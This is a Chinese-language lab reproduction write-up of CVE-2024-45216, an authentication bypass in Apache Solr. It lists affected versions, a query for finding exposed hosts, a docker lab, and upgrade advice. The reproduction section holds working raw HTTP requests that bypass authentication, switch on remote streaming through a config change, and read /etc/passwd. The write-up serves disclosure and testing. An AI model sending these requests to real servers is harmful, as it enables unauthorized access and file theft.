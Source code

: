 # Apache Solr 认证绕过漏洞 CVE-2024-45216

## 漏洞描述

2024 年 10 月，Apache Solr 官方披露 CVE-2024-45216 Apache Solr 认证绕过漏洞。攻击者可构造恶意请求利用 PKIAuthenticationPlugin 造成权限绕过，从而可在未认证的情况下调用。官方已发布安全更新，建议升级至最新版本。

参考链接：

- https://solr.apache.org/security.html#cve-2024-45216-apache-solr-authentication-bypass-possible-using-a-fake-url-path-ending

## 漏洞影响

```
5.3.0 <= Apache Solr < 8.11.4
9.0.0 <= Apache Solr < 9.7.0
```

## 网络测绘

```
app="APACHE-Solr"
```

## 环境搭建

docker-compose.yml

```
version: '2'
services:
 solr:
   image: vulhub/solr:8.2.0
   ports:
    - "8983:8983"
    - "5005:5005"
```

执行如下命令启动一个 Apache Solr 8.2.0 服务器：

```
docker-compose up -d
```

服务启动后，访问 `http://your-ip:8983` 即可查看到一个无需权限的 Apache Solr 服务。

## 漏洞复现

绕过身份验证，获取 core 名称：

```
GET /solr/admin/cores:/admin/info/key?indexInfo=false&wt=json HTTP/1.1
Host: your-ip:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![](images/Apache%20Solr%20认证绕过漏洞%20CVE-2024-45216/image-20241105160749641.png)

此时读取文件将报错 `Remote Streaming is disabled`，这是因为 Remote streaming 是默认关闭的：

![](images/Apache%20Solr%20认证绕过漏洞%20CVE-2024-45216/image-20241105161407187.png)

修改 core 配置，开启 Remote streaming：

```
POST /solr/demo/config:/admin/info/key HTTP/1.1
Host: your-ip:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Content-Type: application/json
Connection: close
Content-Length: 80

{"set-property":{"requestDispatcher.requestParsers.enableRemoteStreaming":true}}
```

![](images/Apache%20Solr%20认证绕过漏洞%20CVE-2024-45216/image-20241105161313234.png)

读取文件，例如 `/etc/passwd`：

```
GET /solr/demo/debug/dump:/admin/info/key?param=ContentStreams&stream.url=file:///etc/passwd HTTP/1.1
Host: your-ip:8983
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
```

![](images/Apache%20Solr%20认证绕过漏洞%20CVE-2024-45216/image-20241105161237958.png)

## 漏洞修复

官方已发布修复方案，受影响的用户建议更新至安全版本： https://solr.apache.org/downloads.html
